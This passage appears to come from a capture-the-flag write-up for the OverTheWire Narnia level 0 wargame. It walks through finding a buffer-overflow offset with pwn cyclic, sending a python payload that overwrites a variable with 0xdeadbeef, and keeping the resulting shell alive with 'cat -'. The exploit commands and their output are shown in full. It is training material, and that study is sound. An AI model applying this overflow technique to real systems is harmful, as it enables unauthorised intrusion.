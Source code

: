 Attempting to write the four letter word “test” to the buffer proves to be an inadequate length for overflowing the buffer as the value did not change.

### Buffer Overflow

We can verify that this value can be modified by attempting to flood the buffer with a long string of characters\:

{% highlight bash %}
┌─[0xd4y@Writeup]─[~/business/other/overthewire/narnia]  
└──╼ $pwn cyclic 100  
aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaa

narnia0@narnia\:/narnia$ ./narnia0  
Correct val's value from 0x41414141 -> 0xdeadbeef!  
Here is your chance\: aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaa  
buf\: aaaabaaacaaadaaaeaaafaaa  
val\: 0x61616166  
WAY OFF!!!!
{% endhighlight %}

Observe that the value has changed from 0x41414141 to 0x61616166 confirming that there is a buffer overflow vulnerability. To calculate the offset, the -l flag can be utilized in the pwn command\:

{% highlight bash %}
┌─[0xd4y@Writeup]─[~/business/other/overthewire/narnia]  
└──╼ $pwn cyclic -l 0x61616166  
20
{% endhighlight %}

Seeing as the offset is 20 bytes, it is possible to input up to 20 bytes into the buffer before the value gets changed. Thus the payload will incorporate a string of 20 bytes followed by 0xdeadbeef in little endian which is \\xef\\xbe\\xad\\xde. Conducting this attack reveals the following\:

{% highlight bash %}
narnia0@narnia\:/narnia$ python -c "print 'A'*20+'\\xef\\xbe\\xad\\xde'"|./narnia0 Correct val's value from 0x41414141 -> 0xdeadbeef!  
Here is your chance\: buf\: AAAAAAAAAAAAAAAAAAAAﾭ  
val\: 0xdeadbeef

The attack has been successfully performed as can be seen from the overwritten value and lack of the WAY OFF!!!! message. However, no shell was given. Analysing this program in radare2 reveals that we should be getting a /bin/sh shell\:
{% endhighlight %}

![](/reports/Narnia/image1.png)

Upon further thought into the reason for not receiving a shell, it came to mind that perhaps the shell is dying with the process of piping the python command into the narnia0 binary. It is possible that stdin is attached to this process and therefore the shell immediately dies. Appening \;cat - to the end of the command proves to work (this is because cat - outputs stdin).
